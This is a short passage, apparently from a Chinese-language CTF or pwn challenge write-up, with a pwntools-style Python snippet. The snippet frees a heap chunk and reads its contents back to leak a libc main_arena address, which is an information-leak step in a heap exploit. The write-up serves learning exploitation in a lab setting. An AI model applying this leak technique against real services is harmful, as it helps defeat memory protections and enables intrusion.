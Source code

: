![upload successful](/images/pasted-66.png)

可以修改一下脚本接受地址

```python
add(0,0x108)
add(1,0x108)
add(2,0x108)
free(0)

show(0)
ru("Content: ")
addr = u64(rc(6).ljust(8,'\x00'))
print "add --->" + hex(addr)

pause()

```



这就接收到了地址，是main_arena+88的地址